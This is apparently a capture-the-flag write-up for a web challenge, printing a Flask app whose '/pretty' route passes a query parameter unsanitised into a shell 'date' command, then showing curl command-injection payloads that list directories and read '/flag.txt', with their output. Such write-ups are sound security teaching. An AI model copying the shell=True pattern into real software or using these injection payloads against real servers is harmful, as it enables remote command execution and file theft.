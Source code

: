```yaml
---
layout: writeup
title: Induction Therapy
tags: WebX
---
```


## Description

The citizens of Freedonia are preparing for an upcoming national vote - but before they can make their voices heard, they’ll need to get informed. This challenge drops participants into a voter education web portal where all candidates, policies, and debates are presented for review. Only time will tell who'll you vote for soon...

<!--more-->

http://redac.ted:9001/

We were also then given the source code

## Solution

Here is the app.py for this challenge:

```python
from flask import Flask, request, render_template  # update import
import subprocess

app = Flask(__name__)

# Gotta serve something to the public, right?
@app.route("/")
def index():
    return render_template("index.html")

@app.route('/candidates')
def candidates():
    return render_template('candidates.html')

@app.route('/policies')
def policies():
    return render_template('policies.html')

@app.route('/debate')
def debate():
    return render_template('debate.html')

@app.route("/pretty")
def pretty():
    fmt = request.args.get("format", "")
    try:
        result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
        return f"{result.decode()}"
    except subprocess.CalledProcessError as e:
        return f"Error: {e.output.decode()}", 400
    except Exception as e:
        return f"{str(e)}", 500

@app.route("/subscribe", methods=["POST"])
def subscribe():
    email = request.form.get("email", "")
    print(f"Received subscription request from: {email}")
    return "Subscribed", 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=9001)
```

A promosing line in here is:

```python
# ...
@app.route("/pretty")
def pretty():
	fmt = request.args.get("format", "")
	try:
		result = subprocess.check_output(f"date +'{fmt}'", shell=True, stderr=subprocess.STDOUT, timeout=2)
# ...
```

For those who don't know, `subprocess` is used to execute code in the shell, and they use no sanitisation when getting client input and using it in a code execution. So we can put any code in a query at `/pretty` and therefore execute any code we want as long as the command takes less then 2 seconds to execute. Lets test this.

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';ls;:'"

"<sfi000024v576754>
"<sfi000025v576754>
"<sfi000032v294427>
"<sfi000033v294427>
app.py
templates
```

Let's break down that payload: `';ls;:'` This creates the full command `date + '';ls;:''`

The first first apostrophe is used to escape the already existanct apostropher, the semi colon is used to exeucte another command, and then to escape the last apostrophe gained from the `'{fmt}'`

The colon is used becuase `:''` does nothing, and as such removes the error message having a `''` would cause. So by just putting out command in between `';` and `;:'` we can execute whatever command we want.

Time to find the flag

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';ls%20/;:'"

app
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

And there is the flag in the filesystem root directory `/` time to cat it

```bash
$ curl "http://re.da.ct.ed:9001/pretty?format=';cat%20/flag.txt;:'"

secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}
```

Finally we have the flag: `secedu{th3re_is_4lways_a_t1me_&_plac3_to_bre4k_0u7}`
